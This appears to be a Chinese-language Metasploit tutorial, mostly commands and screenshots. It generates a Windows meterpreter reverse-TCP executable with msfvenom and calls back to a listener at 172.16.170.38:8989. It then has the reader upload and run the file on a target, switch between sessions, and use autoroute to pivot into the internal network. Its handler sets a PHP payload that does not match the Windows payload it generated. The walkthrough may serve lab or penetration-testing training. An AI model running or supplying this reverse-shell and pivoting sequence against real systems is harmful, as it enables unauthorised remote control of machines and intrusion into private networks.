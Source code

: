 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849390012-799b4a64-e27d-4384-8671-7e7844aa3966.png#averageHue=%23262c3a&clientId=u531c24f4-2300-4&from=paste&height=146&id=ua6fc5bed&name=image.png&originHeight=183&originWidth=690&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=48356&status=done&style=none&taskId=u3a0f37d6-981d-43f7-af25-bad60883bce&title=&width=552)
kali进入msfconsole，启动监听。
```bash
#生成window可执行的exe程序
msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.170.38 LPORT=8989 -f raw -o run2.exe

#在本机中设置监听
msfconsloe																	#进入框架
use exploit/multi/handler										#使用use进入模块
set payload php/meterpreter/reverse_tcp			#设置攻击载荷
set lhost 172.16.170.38											#设置参数
set lport 8989															#设置参数
run																					#开始！
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849342219-d7931976-47c0-4bbe-8de0-d6da00a7a12b.png#averageHue=%23efefef&clientId=u531c24f4-2300-4&from=paste&height=37&id=u825de5cb&name=image.png&originHeight=46&originWidth=650&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=5489&status=done&style=none&taskId=ue3456260-8869-41e0-8f05-e8c8506e817&title=&width=520)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849366831-a2490293-0cd7-405b-af00-e623f93e11b0.png#averageHue=%230a0a0a&clientId=u531c24f4-2300-4&from=paste&height=167&id=ubcce9643&name=image.png&originHeight=209&originWidth=675&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=41377&status=done&style=none&taskId=udf5b6f43-fede-47bc-b559-d0abadc41f8&title=&width=540)
将生成出来的程序（run2.exe）上传并运行

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849404194-8559f9bc-28a0-4001-b099-c734f18d9914.png#averageHue=%23252936&clientId=u531c24f4-2300-4&from=paste&height=92&id=ua2ce417f&name=image.png&originHeight=115&originWidth=918&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=20006&status=done&style=none&taskId=ua3588be5-4327-4650-9bf6-b29a4a31174&title=&width=734.4)
msf即可收到来自监听程序的回应。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678872793617-318d6b7c-fcf7-4250-aeb0-66c23b5febad.png#averageHue=%23252937&clientId=u2d9cfd07-d2a6-4&from=paste&height=228&id=ud3e1b469&name=image.png&originHeight=285&originWidth=913&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=69766&status=done&style=none&taskId=uafc69192-c418-4750-a627-c22ee350da8&title=&width=730.4)
会话窗口的切换命令
```bash
background					#从当前会话返回msf，并挂起当前会话
sessions -l					#列出所有可用的交互会话
sessions -i <id>		#从msf进入到某id的会话窗口
```


![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678878036819-21cd91b3-ff0d-457c-8382-213ee22c21dd.png#averageHue=%23252934&clientId=u2d9cfd07-d2a6-4&from=paste&height=342&id=u5a79c515&name=image.png&originHeight=428&originWidth=709&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=135574&status=done&style=none&taskId=u34945dd4-2cae-46dc-9998-d1db9a09f0c&title=&width=567.2)
```bash
use post/multi/manage/autoroute			#使用autoroute模块
set session 6												#将使用回话设置成6
run																	#开始
route print													#查看路由状态
```
或者如下
```bash
#在会话窗口里
run post/multi/manage/autoroute			#启用autoroute模块
run autoroute -p										#查看当前会话的路由状态
```
两者是一样的效果，相当于在主机里加了个路由器，将内部网络路由出来，但是到这一步后，只有msf能够进入被路由出来的ip，我们要使用其他工具，将其让整个kali都能进入。


![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678878169651-4fc9ab47-26c9-45ec-a543-4f2b1e4707d2.png#averageHue=%23242731&clientId=u2d9cfd07-d2a6-4&from=paste&height=289&id=ub47f2b98&name=image.png&originHeight=361&originWidth=892&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=103791&status=done&style=none&taskId=u7a53cddc-8560-4f17-a64a-9d3528a18fa&title=&width=713.6)


![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678879111148-0a1fff3d-af1c-4967-93ff-307709e6e1ca.png#averageHue=%23252936&clientId=u2d9cfd07-d2a6-4&from=paste&height=289&id=ue6fa7aa4&name=image.png&originHeight=361&originWidth=885&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=91212&status=done&style=none&taskId=u97593c53-8470-410b-863b-ad6bae2e06b&title=&width=708)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678879063425-6c0125a7-a2ce-4c0e-87e0-5098ad523eed.png#averageHue=%23232632&clientId=u2d9cfd07-d2a6-4&from=paste&height=112&id=u45fe073c&name=image.png&originHeight=140&originWidth=374&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=8816&status=done&style=none&taskId=u43fd1aa6-6aa2-4e2e-ae2b-3be8c22380e&title=&width=299.2)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678879154352-9b42f052-e8db-435e-be53-0ac71e1c0e4f.png#averageHue=%23272b3b&clientId=u2d9cfd07-d2a6-4&from=paste&height=85&id=ue95d8bdb&name=image.png&originHeight=106&originWidth=551&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=24636&status=done&style=none&taskId=u1bacb3a3-7863-43e2-8d6f-f254e009de0&title=&width=440.8)
